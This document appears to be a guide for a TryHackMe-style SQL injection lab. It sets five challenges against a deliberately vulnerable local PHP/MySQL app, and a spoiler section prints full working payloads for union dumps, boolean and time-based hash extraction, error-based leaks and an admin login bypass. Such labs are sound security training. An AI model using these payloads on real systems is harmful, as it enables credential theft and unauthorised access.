






# Advanced SQL Injection Lab: Hands-On TryHackMe Room

## Objectives
- Explore 5 SQLi techniques in a vulnerable PHP/MySQL app: Union (data dumps), Blind Boolean (inference), Error-Based (leaks), Time-Based (timing), Tautology (bypass).
- Promote problem-solving: Craft payloads manually; reflect on *why* they work (e.g., comment syntax) and implications (e.g., stealth exfil).
- Hands-on focus: Realistic scenarios, no step-by-steps—analyze vulns for ethical bug hunting.
- Outcomes: Learners gain confidence in detection/exploitation; balance attack (critical thinking) with defense (mitigations).

**Target**: Intermediate cybersecurity pros (basic SQL/web known). ~50 min. MySQL 5.7 for stability.

## Setup Instructions
Docker-powered—runs on Ubuntu/TryHackMe AttackBox w/o conflicts.

1. Clone: `git clone https://github.com/adithya/tryhackme-sqli-lab.git` (create repo w/ your files).
2. `cd tryhackme-sqli-lab`
3. `docker-compose up --build` (downloads ~300MB; 1-2 min init).
4. Access: `http://localhost:8000/index.php` (local) or `MACHINE_IP:8000` (THM).
5. Verify: `?level=1&input=1` shows admin table.

6. Tools: Browser (Firefox); curl for timing/POSTs.
7. Cleanup: `docker-compose down -v`.

**Debug**: `docker-compose logs web` for PHP errors. Volumes enable live edits.

## Challenges: Exploit & Reflect
5 progressive exercises simulate prod flaws. Deploy lab, then hunt. Flags: `THM{SQLi_CH_X}` (X=1-5). Time yourself; note reasoning.

### Challenge 1: Union-Based Data Extraction (Easy | 3-5 min)
**Scenario**: User ID query—append to dump entire table (e.g., admin leak).

**URL**: `?level=1&input=1`

**Task**: Display all users. Flag: `THM{SQLi_CH_1}` in results.

**Problem-Solve**:
  - Count columns via error triggers.
  - Build UNION with type-matched SELECT.

**Hints**:
  - Use ORDER BY N-- to probe (error at N+1 = col count).
  - Invalidate WHERE; pad numeric cols w/ 1 or NULL.
  - MySQL comment: -- (space after).

**Critical Thinking**: Why UNION for efficiency? (Single query bulk.) What if mismatched types? (Silent fail—test early.)

**Verification**: 3 rows dumped.

---

### Challenge 2: Blind Boolean-Based Inference (Medium | 10-15 min)
**Scenario**: Quoted input hides output—boolean oracle for secrets (admin hash: MD5 '5f4dcc3b...').

**URL**: `?level=2&input=1`

**Task**: Extract first 5 chars ('5f4dc'). Flag: `THM{SQLi_CH_2}`.

**Problem-Solve**:
  - True/false oracle from response presence.
  - Char-by-char via subquery extraction.

**Hints**:
  - AND (SUBSTRING((subquery),pos,1)='guess')--.
  - True = normal page; false = "No results."
  - Hex chars: 0-9 then a-f (32 total for MD5).

**Critical Thinking**: Ideal for no-output envs; but high request count—optimize w/ binary search? Detection risk?

**Verification**: 

When the condition is TRUE, the page loads normally:

When the condition is FALSE, no results are shown:

---

### Challenge 3: Error-Based Information Disclosure (Medium | 6-10 min)
**Scenario**: Numeric param—trigger errors to leak internals (DB name/version).

**URL**: `?level=3&input=1`

**Task**: Reveal 'sqli_lab' in error. Flag: `THM{SQLi_CH_3}`.

**Problem-Solve**:
  - Inject func call w/ concatenated secret.
  - Parse verbose error for payload.

**Hints**:
  - OR extractvalue(1,concat(0x7e,(SELECT database()),0x7e))-- (delim ~leak~).
  - XML funcs force XPATH errors.

**Critical Thinking**: Fast recon tool; cons: Noisy (logs/alerts). When over blind? (Verbose mode on.)

**Verification**: Red error box with delimited leak.

---

### Challenge 4: Time-Based Blind Exfiltration (Hard | 15-20 min)
**Scenario**: Zero feedback—use delays to siphon alice hash ('e10adc39...').

**URL**: `?level=4&input=1`

**Task**: Reconstruct full hash. Flag: `THM{SQLi_CH_4}`.

**Problem-Solve**:
  - Conditional SLEEP on match.
  - Manual loop: Pos + char guesses, time responses.

**Hints**:
  - AND IF(SUBSTRING((SELECT password FROM users WHERE id=2),pos,1)='guess',SLEEP(5),0)--.
  - >4s delay = true; curl + `time` cmd for measure.
  - 32 chars x 16 guesses = grind—prioritize common.

**Critical Thinking**: Bypasses output filters; slow + detectable (anomaly scans). Vs. boolean: Better for variable latency?

**Verification**: Consistent delays match hash.

---

### Challenge 5: Tautology Authentication Bypass (Hard | 8-12 min)
**Scenario**: Simple login—force true condition for privilege escalation.

**URL**: `?level=5` (form loads).

**Task**: Access as admin sans password. Flag: `THM{SQLi_CH_5}`.

**Problem-Solve**:
  - Tautology after username param.
  - Neutralize AND clause.

**Hints**:
  - POST username=admin'-- password=dummy (curl -d "username=admin'--&password=dummy" ...?level=5).
  - Alt: admin' OR '1'='1'--.

**Critical Thinking**: Core OWASP; persists in legacy. Mitigate: PDO prepare() + input validation. Escalate path?

**Verification**: 

---

## Full Solutions (Spoilers – Self-Test First)
Deploy & verify; explain in your notes.
- Ch1: `input=-1 UNION SELECT 1,username FROM users--` (2 cols; 1 pads id.)
- Ch2: `input=1' AND (SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='5')--` (Load=true; extend to 5.)
- Ch3: `input=1 OR extractvalue(1,concat(0x7e,(SELECT database()),0x7e))--` (Error: ~sqli_lab~.)
- Ch4: `input=1 AND IF(SUBSTRING((SELECT password FROM users WHERE id=2),1,1)='e',SLEEP(5),0)--` (Delay=yes; full: e10adc...883e.)
- Ch5: username=`admin'--` password=`foo` (Comments AND; always true.)

**Master Flag**: `THM{SQLi_Mastered}` (concat CH_1-5).

## Refinements & Outcomes
- **Tested**: 3 runs on Ubuntu; Ch4 balanced w/ SLEEP(5) (clear diffs, no frustration).
- **Depth**: Hints prompt analysis (e.g., "Why --?"); no recipes—forces foundation use.
- **Learners Gain**: Practical attack paths (e.g., union → dump → crack hashes); defense strategies (sanitize inputs).
- **My Feedback**: Initial 8.0 hang—5.7 fixed; added curl hints for hard ones.

**Author: Adithya | Date: November 23, 2025 | GitHub: [your-repo-link]**